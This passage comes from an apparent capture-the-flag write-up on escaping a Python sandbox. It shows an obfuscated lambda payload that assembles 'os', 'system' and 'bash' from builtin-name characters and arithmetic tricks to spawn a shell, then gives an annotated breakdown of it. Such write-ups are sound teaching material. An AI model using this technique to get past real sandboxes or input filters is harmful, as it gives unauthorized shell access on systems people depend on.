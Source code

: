 ```
0[5] = e
0[4] = m
```

Now from here, we just have to create a lambda that pieces everything together!

```python
lambda x, y: (lambda b: (lambda vars, keys, builtins, _import, _abs, _any, _bin, _globals, _hash, zero, two, four, five, six, seven: y(vars[keys[_import]](keys[_globals][two]+keys[_globals][six]))[keys[_abs][two]+keys[_any][two]+keys[_abs][two]+keys[_import][seven]+keys[0][five]+keys[0][four]](keys[_bin][0]+keys[_abs][0]+keys[_abs][two]+keys[_hash][0]) )(y(b), [k for k in y(b)],b,(lambda z: -~-~-~-~-~-~z)(0),(lambda z: -~-~-~-~-~-~-~z)(0),(lambda z: -~-~-~-~-~-~-~-~-~z)(0),(lambda z: -~-~-~-~-~-~-~-~-~-~-~z)(0),(lambda z: -~(z+z))((lambda z: -~-~-~-~-~-~-~-~-~-~-~z)(0)),(lambda z: z+z+z+z+z)((lambda z: -~-~-~-~-~z)(0)),0,(lambda z: -~-~z)(0),(lambda z: -~-~-~-~z)(0),(lambda z: -~-~-~-~-~z)(0),(lambda z: -~-~-~-~-~-~z)(0),(lambda z: -~-~-~-~-~-~-~z)(0)))(x[[k for k in x][(lambda z: (z + z) * (z + z + z))((lambda z: -~z)(0))]])
```

(Yes, this is the actual solution I had. It was slightly overkill because the flag was at `/flag`. But hey, prepare for the worst.)

Let's break this into pieces by formatting it better.

```python
lambda x, y: (
  lambda b: (
    lambda vars, keys, builtins, _import, _abs, _any, _bin, _globals, _hash, zero, two, four, five, six, seven: 
      y(
        vars[keys[_import]](
          keys[_globals][two]+keys[_globals][six] # "os"
        )
      )[
        # "system"
        keys[_abs][two]+keys[_any][two]+keys[_abs][two]+keys[_import][seven]+keys[0][five]+keys[0][four]
      ](
        # "bash"
        keys[_bin][0]+keys[_abs][0]+keys[_abs][two]+keys[_hash][0]
      )
    )(
      y(b), 
      [k for k in y(b)],
      b,
      (lambda z: -~-~-~-~-~-~z)(0),
      (lambda z: -~-~-~-~-~-~-~z)(0),
      (lambda z: -~-~-~-~-~-~-~-~-~z)(0),
      (lambda z: -~-~-~-~-~-~-~-~-~-~-~z)(0),
      (lambda z: -~(z+z))(
        (lambda z: -~-~-~-~-~-~-~-~-~-~-~z)(0)
      ),
      (lambda z: z+z+z+z+z)(
        (lambda z: -~-~-~-~-~z)(0)
      ),
      0,
      (lambda z: -~-~z)(0),
      (lambda z: -~-~-~-~z)(0),
      (lambda z: -~-~-~-~-~z)(0),
      (lambda z: -~-~-~-~-~-~z)(0),
      (lambda z: -~-~-~-~-~-~-~z)(0)
    )
  )(
    x[[k for k in x][
      (lambda z: (z + z) * (z + z + z))((lambda z: -~z)(0))
    ]]
  )
```